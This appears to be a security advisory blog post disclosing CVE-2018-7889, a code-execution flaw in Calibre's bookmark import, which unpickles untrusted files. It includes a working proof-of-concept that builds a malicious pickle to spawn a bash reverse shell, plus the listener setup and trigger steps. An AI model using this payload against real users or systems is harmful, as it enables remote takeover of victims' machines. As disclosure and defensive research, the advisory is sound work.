 ```yaml
---
layout: post
title: "CVE-2018-7889: Code execution when importing bookmarks into an Ebook"
---
```


A malicious pickle file can be used to trigger remote code execution in
Calibre E-book Manager.

# Affected Versions

This vulnerability affects all operating systems Calibre supports and is
present in the latest version (3.18) of the application.

# Description

Calibre E-book Manager uses the Python `pickle` module for serialization in
multiple places. This is a dangerous pattern because the deserialization of
malicious pickle data can result in the execution of arbitrary Python code.

There is one specific functionality in Calibre where the use of pickle can be
leveraged by an attacker to obtain code execution by social engineering a
target.

Calibre allows users to export and import bookmark data from a
specific ebook. `src/calibre/gui2/viewer/bookmarkmanager.py` contains code that
imports a previously exported file containing bookmark information. This file
data is directly passed into `cPickle.load`.

```python
206 files = choose_files(self, 'export-viewer-bookmarks', _('Import bookmarks'),
207     filters=[(_('Saved bookmarks'), ['pickle'])], all_files=False, select_only_single_file=True)
208        if not files:
209            return
210        filename = files[0]
211
212        imported = None
213        with open(filename, 'rb') as fileobj:
214            imported = cPickle.load(fileobj)
```

# Proof of Concept

For the proof of concept, we will use a malicious pickle generated by the below
`poc.py`.

```python
import cPickle
import os
import base64
import pickletools

class Exploit(object):
    def __reduce__(self):
        return (os.system, (("bash -i >& /dev/tcp/127.0.0.1/8000 0>&1"),))

with open("exploit.pickle", "wb") as f:
    cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)
```

The exploit will make a reverse shell to a listener on 127.0.0.1:8000, so we
set that up using `ncat`.

```shell
$ ncat -nlvp 8000

Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 125E F683 5DA6 153A 6E26 E957 0C92 4706 2596 347C
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
```

We open an ebook and navigate to the "Bookmarks" icon on the left of the
screen and click the "Show/hide bookmarks" menu item. We then click the
"Import" button on the bookmarks pane and select the generated `exploit.pickle`
file. This should trigger a reverse shell on our listener.

# Credits

This issue was discovered by Ayrx.

# Timeline

* 02 Mar 2018 - Vulnerability discovered.
* 07 Mar 2018 - Vulnerability [reported][calibre-bug-report] to the vendor.
* 07 Mar 2018 - Vulnerability fixed by vendor in commit `aeb5b036a0bf`.
* 09 Mar 2018 - CVE-2018-7889 assigned.


[calibre-bug-report]: https://bugs.launchpad.net/calibre/+bug/1753870
